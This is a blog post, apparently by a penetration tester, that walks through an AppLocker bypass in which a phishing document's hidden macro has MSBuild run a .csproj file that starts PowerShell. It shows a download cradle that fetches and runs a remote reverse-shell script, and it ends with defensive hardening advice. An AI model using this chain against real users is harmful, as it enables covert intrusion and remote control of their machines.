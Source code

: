 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }


### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via crafted (or not so crafted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application Whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. Commonly, the default AppLocker rules (listed below) are applied.


![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }


Since Powershell has gained recognition for being the attacker's language of choice, organisations are increasingly blocking it. However, blocking powershell.exe alone is not sufficient as there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with (as Casey Smith puts it) the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with Default Rules and has also blocked powershell.exe.


![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }


However, assuming that MSBuild.exe is allowed, we can have it execute a ".csproj" (Visual Studio .NET C# Project file) and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.


<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>


This executes the second stage of our payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>


Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>


The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

Our FailedPayment.doc lure:

![lure]({{ site.url }}/images/phishing-lure.png){: .center-image }


Now that the "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, our powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.


![rules]({{ site.url }}/images/shell.png){: .center-image }


We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode.

This is not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. organisations should block their use unless explicitely required for certain users (e.g. developers). Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should consider blocking.

In addition to powershell.exe, organisations should consider blocking the following PowerShell binaries and assemblies.

<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>


Even after blocking the above, there are multiple methods an attacker could use to instantiate a Powershell runspace, for example by downloading a custom binary to one of the writable and executable folders within Windows that AppLocker Default Rules has whitelisted. On my computer, these are:

<script src="https://gist.github.com/egre55/47186f7a22de177af4785e80fc2dcb41.js"></script>

organisations should also consider blocking macros for users who don't need this functionality, and consider crafting a custom whitelisting policy, mindful of the permissiveness of Default Rules.

Ultimately, an "assume breach" mentality is paramount, but before compromise we have to make it as hard as possible for an attacker to gain that initial foothold.
